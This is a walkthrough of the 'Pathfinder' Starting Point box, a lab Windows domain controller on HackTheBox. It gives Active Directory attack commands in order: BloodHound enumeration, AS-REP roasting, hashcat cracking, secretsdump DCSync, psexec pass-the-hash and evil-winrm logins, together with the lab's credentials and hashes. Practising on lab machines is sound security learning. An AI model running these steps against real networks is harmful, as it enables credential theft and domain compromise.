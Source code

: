 ```
```
*2021-01-01*

*kimm3*

# Walkthrough: Box
Platform: HackTheBox, Starting Point

Difficulty: Very Easy

This is the fourth box in the starting point series.

The boxes build on each other so make sure to save credentials and other intersting information that you find.

Ref:
- [Bloodhound](https://bloodhound.readthedocs.io/en/latest/index.html)
- [Hausec AD pentesting part II, some good tips](https://hausec.com/2019/03/12/penetration-testing-active-directory-part-ii/)
- [Kerberoasting](https://www.blackhillsinfosec.com/a-toast-to-kerberoast/)
- [Impacket](https://github.com/SecureAuthCorp/impacket)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm)

## Scans and enumeration
```
export IP=10.10.10.30
sudo nmap $IP -p- -Pn -A -oA nmap/init-scan
```

![init-scan](assets/markdown-img-paste-20210821063908146.png)

That looks like a Windows domain controller, indicated by ldap and kerberos. Information found includes:

- Hostname: PATHFINDER
- Domain: MEGACORP
- Other protocols worth enumeration: DNS, SMB, WinRM
If we get credentials, we can try to use windows remote management to access the machine.

The domain name is the same as the previous boxes. Since we have domain users credentials from the Shield box, we can enumerate further with bloddhound tools.

You'll need bloodhound and the neo4j packages installed.

There's a [python bloodhound collector tool](https://github.com/fox-it/BloodHound.py) so that you don't have to depend on windows apps.

```
pyhon3 -m venv pathfinder
source pathfinder/bin/activate
pip install bloodhound
```

`bloodhound-python -d megacorp.local -u sandra@MEGACORP.local -p Password1234! -dc pathfinder.megacorp.local -ns $IP -c all --zip`

![bloodhound-import](assets/markdown-img-paste-2021082105153908.png)

Drag and drop the zipfile in to bloodhound. Run some built-in quieries from the analysis window. Apart from the administrator user, there's a user called svc_bes that has the 'GetChanges' and 'GetChangesAll' rights to the domain.

![svc-bes](assets/markdown-img-paste-20210821051834754.png)

![get-tools](assets/markdown-img-paste-20210821061817697.png)

Let's try to get some hashes. First we'll try to get SNPs.

![getusersnps.py](assets/markdown-img-paste-20210821054126891.png)

This fails due to my machine not having the same time as the DC, we'll try to sync time if the others techniques dosen't work.

![getnpusers.py](assets/markdown-img-paste-20210821062004467.png)

Success, let's try to crack it.

![hc-wiki](assets/markdown-img-paste-2021082106211154.png)

`hashcat -a 0 -m 18200 hashes/svcbes sl/Passwords/Leaked-Databases/rockyou.txt`

![hc-cracked](assets/markdown-img-paste-20210821062307483.png)

## Exploiting the machine
`secretsdump.py megacorp.local/svc_bes:Sheffield19@10.10.10.30 -dc-ip $IP`

![secretsdump.py](assets/markdown-img-paste-20210821063937478.png)

Let's try psexec.py with the administrator hash.

`psexec.py megacorp.local/administrator@10.10.10.30 -hashes aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18`

![root.txt](assets/markdown-img-paste-20210821064140394.png)

It works.
## Alternative
With the svc_bes user, we can use winrm to get in to the machine and get the user.txt.

![user.txt](assets/markdown-img-paste-20210821064819883.png)

Install evil-winrm and connect with: `evil-winrm -i 10.10.10.30 -u svc_bes -p Sheffield19`

Once you have the hash of the administrator, you can use evil-winrm to connect as administrator as well:

![evil-winrm-adm](assets/markdown-img-paste-20210821065214379.png)

## An easier way
Don't know why I didn't try this first, but the user sandra gets in with winrm. From here you can upload files like mimikatz and winpeas.

![sandra-winrm](assets/markdown-img-paste-2021082107072358.png)
